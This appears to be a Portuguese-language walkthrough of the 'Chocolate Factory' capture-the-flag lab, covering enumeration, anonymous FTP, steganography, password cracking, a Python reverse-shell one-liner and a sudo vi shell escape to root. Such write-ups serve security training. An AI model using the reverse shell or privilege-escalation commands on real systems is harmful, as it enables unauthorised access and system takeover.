# _**Chocolate Factory CTF**_


## _**Enumeração**_
Vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```

Também vamos fazer um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../Discovery/Web-Content/commmon.txt
> ```


O resultado do scan **Nmap** foi ENORME  
Vamos por partes:
* 21/tcp   open     ftp          vsftpd 3.0.3 | ftp-anon: Anonymous FTP login allowed (FTP code 230)
* 22/tcp   open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
* 80/tcp   open     http         Apache httpd 2.4.29
* 100/tcp  open     newacct? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)
* 101/tcp  open     hostname? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)
* 102/tcp  open     iso-tsap? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)
* 103/tcp  open     gppitnp? | small hint from Mr.Wonka : Look somewhere else, its not here! ;)

Este padrão se repete diversas vezes por diversas portas escaneadas  
Mas temos uma que chama a atenção:
* 113/tcp  open     ident? | http://localhost/key_rev_key <- You will find the key here!!!

Vamos investigar primeiro o serviço FTP, que permite login anonimamente  



Extraindo o arquivo com ```get```  
Agora, vamos investigar o que tem nesse arquivo e tentar extrair com <mark>Steghide</mark>
> ```bash
> steghide extract -sf gum_room.jpg
> ```


Dando um ```cat``` no arquivo extraído, temos uma longa _string_ do que parece ser base64  
Vamos usar o comando ```echo``` para decifrar
> ```bash
> echo '[string]' | base64 -d
> ```


## _**Ganhando acesso**_
Parece ser um longo arquvio _/etc/shadow_  
E temos uma string para _charlie_  
Vamos tentar quebrar com <mark>John</mark>  



Sucesso!
Vamos tentar realizar login como _charlie_  



## _**Escalando privilégios**_
Parece um painel que aceita comandos  
Vamos tentar alguns como:
* id
* pwd
* whoami
* python3 --version



Python está presente
Podemos tentar obter um _reverse shell_ através de Python  
Vamos tentar:
> ```bash
> python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```

Pela dica, devemos usar python ao invés de python3
E sucesso!!!



Investigando, encontramos o seguinte:



Vamos copiar para um arquivo com ```echo``` e realizar login via SSH como _**charlie**_



Assim, podemos ter nossa primeira flag!!!



Vamos continuar  
Agora, precisamos escalar privilégios na conta de _**Charlie**_
Vamos começar com ```sudo -l```



Esta frase, eu já vi em um outro CTF, porém, ao invés de **vi**, era **vim**
_'(ALL : !root) NOPASSWD: /usr/bin/vi'_  
Como **vi** é um editor de texto que aceita comandos, vamos tentar: sudo /usr/bin/vi -c ':!/bin/bash'  



E temos root!!!
Agora, temos que buscar a flag em um arquivo .py do qual executando, requisita uma chave  
Precisamos encontrá-la  
Acredito ser o arquivo <mark>key_rev_key</mark>  
Vamos executar os seguintes comandos abaixo
> ```bash
> chmod +x key_rev_key
> ./key_rev_key

Precisamos de um nome...  



Ao invés de buscar o nome, vamos tentar <mark>strings</mark>



Parece que temos resultado  
Vamos tentar com o achado  


